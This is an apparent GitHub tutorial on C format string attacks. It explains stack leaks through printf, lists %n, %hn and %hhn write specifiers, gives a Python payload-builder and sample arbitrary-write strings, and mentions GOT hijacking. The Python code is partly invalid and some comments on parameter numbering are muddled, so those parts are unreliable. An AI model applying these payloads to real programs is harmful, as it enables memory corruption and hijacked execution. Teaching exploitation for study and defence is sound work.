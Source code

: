 # Format String Attack
First, take a look at the **printf** example.
```C
printf("%p",a);   //such %p is called "Format String"
//However, many people just use like the following >
printf("a");     //or printf(buf);
```  
Now, you should know that is very **dangerous**. When the author forget to use the format string then hacker can control the format string to attack. OK, let's us learn how to attack.  

## Printf Layout
Sometimes printf will printf some weird value in the following situation.:scream:  
```C
printf("%p %p",a);
```  
We already know that one %p represents a variable. But in the example above, we can see that we use two %p with only one example, then we can see a weird value print out on result without crash. In fact, the weird value comes from the **stack**.:yum:  
The picture following can help you understand more......  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/printf%20layout.png" width="626" height="276">   
Therefore, the value are all located in the consecutive position in the following. We can also print the value in specified location with the format string of %(num)$p.  

## Use of Format String
```C
%x: print value with hex  
%s: dump the string in the address  
%p: ptr address  
%n: give the number of string to the parameter  
%(num)c: output at least num of string  
%h: int or short int  
%hh: with one byte
```  
You may get tired with the rules above. Don't worry, I will show how to use it in soon.:+1:  
> When we start to attack, we also need to be careful that printf() will be eaten by the null bytes, this usually happen in 64-bits!  

## Read from arbitrary memory  
  
### First, tell you a little trick
When we neen to make the payload, the number before c is always a complex problem.  
Therefore, how about make up a function to calculate for us.    v Python  
```Python
def fmt(prev,val,index):
  result = ""
  if prev < val :
    result += "%"+str(val-prev)+"c"
  elif prev == val :
    result += ""
  else :  
    result = "%"+str(val-prev+256)+"c"  
  result += "%"+str(index)+"$hhn"
  return result  
#
#Try to play with this function??
#
$target is the value we want to write in  
for i in range(4):
  payload += fmt(prev,(target >> i*8)& 0xff,$index+i)  
  prev = (target >> i*8)& 0xff
```  

## Write to arbitrary memory  
```C
"12345%3$n"   //write len(12345) to the fourth parameter  
"%123c%3$n"   //write 123 to the fourth parameter because "c" is the count
"%123c%3$hhn" //write one byte
"%30c%3$hhn%70c%4$hhn"   //Be careful, this mean we write 100 to the fifth parameter!!
```  
How do we solve the null-byte problem?  
```C
"%45068c%10$hn\xdd\xaa\x00\x00\x00\x00...."   //put the address at the end of payload then we can solve the problem  
```  
Besides, for convenience, we will padding format string to the 8 bytes.  
  
:fire: **GOT hijacking**

## Advanced trick
